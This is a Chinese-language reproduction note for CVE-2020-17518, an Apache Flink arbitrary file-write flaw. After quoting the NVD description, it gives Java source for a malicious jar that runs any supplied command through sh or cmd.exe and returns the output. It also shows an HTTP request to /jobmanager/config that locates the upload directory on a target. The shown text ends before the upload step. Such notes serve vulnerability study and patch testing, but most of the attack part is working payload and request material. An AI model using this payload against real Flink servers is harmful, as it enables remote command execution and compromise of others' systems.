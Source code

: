 # 漏洞

## CVE-2020-17518

### 漏洞描述

[NVD - CVE-2020-17518](https://nvd.nist.gov/vuln/detail/CVE-2020-17518)

```
Apache Flink 1.5.1 introduced a REST handler that allows you to write an uploaded file to an arbitrary location on the local file system, through a maliciously modified HTTP HEADER. The files can be written to any location accessible by Flink 1.5.1. All users should upgrade to Flink 1.11.3 or 1.12.0 if their Flink instance(s) are exposed. The issue was fixed in commit a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4 from apache/flink:master.
```

### 漏洞复现

- 编写恶意类并编译成`jar`包。

```java
import java.io.InputStream;
import java.util.Scanner;

public class Execute {
    public static void main(String[] args) throws Exception {
    	String cmd = args[0];
        try {
            if (cmd != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? "\n" + scanner.next() : "";
                throw new Exception((output));
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

- 获取`Flink`运行目录，通过接口`/jobmanager/config`可以获取`web.tmpdir`的路径。

```html
GET /jobmanager/config HTTP/1.1
Host: 192.168.10.32:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```
